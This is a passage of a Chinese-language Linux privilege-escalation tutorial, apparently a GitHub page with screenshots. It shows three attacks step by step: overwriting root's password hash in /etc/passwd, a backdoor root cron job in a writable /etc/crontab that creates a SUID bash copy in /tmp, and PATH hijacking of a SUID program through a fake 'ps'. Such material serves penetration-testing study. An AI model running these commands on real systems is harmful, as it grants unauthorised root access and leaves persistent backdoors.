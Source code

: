 2. 生成一个密码hash
```
openssl passwd -1 -salt mysalt password

$1$mysalt$4Lz7hS.y2V54mV2gJXEKR/
```
3. 编辑 /etc/passwd 替换 root 密码
<img width="778" alt="image" src="https://github.com/user-attachments/assets/4a829fd1-876c-400a-bb50-e29a9fb543e4">

4. 切换到root用户


#### 计划任务文件权限配置错误
> emmmm 这种提权就很迷
1. 查看 `/etc/crontab` 文件权限
```
ls -l /etc/crontab 
```
发现所有用户对 /etc/crontab 可写
2. 创建 /tmp/1.sh 并写入命令
```
cp /bin/bash /tmp/bash666;chmod u+s /tmp/bash666
```
3. 在 /etc/crontab 里写入后门计划任务
```
echo "*/1 * * * * root /tmp/1.sh" >> /etc/crontab
```
4. 运行 /tmp/bash666
```
./bash666 -p
```
   
### 0x4.环境变量提权
1. 搜索suid权限的文件
```
find / -perm -u=s -type f 2>/dev/null
```
<img width="713" alt="image" src="https://github.com/user-attachments/assets/623f6c84-99aa-4785-9fe0-ff7144f3bb5e">

2. 运行shell文件 ，发现输出疑似 `ps` 命令的结果
3. 创建一个新的ps文件，内容为 /bin/bash，最后修改环境变量
```
cd /tmp
echo "/bin/bash" > ps
chmod u+x ps
export PATH=/tmp:$PATH
```
4. 再次运行shell文件，成功提权
<img width="766" alt="image" src="https://github.com/user-attachments/assets/a95e1a72-e29f-4dea-a1b4-752be58de500">
